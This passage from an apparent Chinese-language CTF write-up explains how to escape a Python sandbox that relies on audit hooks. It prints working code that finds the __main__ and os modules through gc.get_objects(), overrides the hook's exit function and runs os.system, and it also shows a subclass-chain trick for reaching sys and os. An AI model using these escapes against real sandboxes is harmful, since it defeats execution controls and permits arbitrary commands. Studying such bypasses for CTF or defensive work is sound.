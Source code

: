 此时再使用之前的解法就会报错. 
1. `sys.modules` 中的 `__main__`被删除了, 所以这个语句`sys.modules['__main__']`会报错.
2. `os`模块也被从`sys.modules`中删除了, 所以此时执行`import os`python会找到`os.py`执行并导入模块, 这个过程中会触发多次 audit hook函数.

下面时报错信息.

```
[*] exec (<code object <module> at 0x7ffff77d85b0, file "<user input>", line 2>,)
[*] sys.excepthook (<built-in function excepthook>, <class 'KeyError'>, KeyError('__main__'), <traceback object at 0x7ffff77d7d40>)
```

我们无法引用`sys.modules["__main__"]`了, 对此fab1ano师傅的做法是使用`gc`(又学到了).
而且通过搜索`gc`中的对象, 可以将`__main__`和`os`都定位到.

最终代码如下:

```python
tmp = """
sys = __builtins__['__loader__'].load_module('sys')
gc = __builtins__['__loader__'].load_module('gc')
print('Searching for modules __main__ and os in garbage collector objects')
for obj in gc.get_objects():
    if '__name__' in dir(obj):
        if '__main__' in obj.__name__:
            print('Found module __main__')
            mod_main = obj
        if 'os' == obj.__name__:
            print('Found module os')
            mod_os = obj
mod_main.__exit = lambda x : print("[+] bypass")
mod_os.system("id")
"""
```

成功 bypass 并执行命令;

```
Searching for modules __main__ and os in garbage collector objects
Found module __main__
Found module os
[*] os.system (b'id',)
[+] bypass
...
```

## 2.3. another way

hstocks师傅使用的另外一种方法来引入 `sys` 和 `os` 模块, 这个方法好像在沙箱逃逸时挺常用的, 不过`classes`的索引在不同版本的python中好像不一样, 具体原理还不清楚.

```python
classes = ''.__class__.__base__.__subclasses__()
sys = classes[133].__init__.__globals__['sys']
os = classes[94].__init__.__globals__['_os']
```
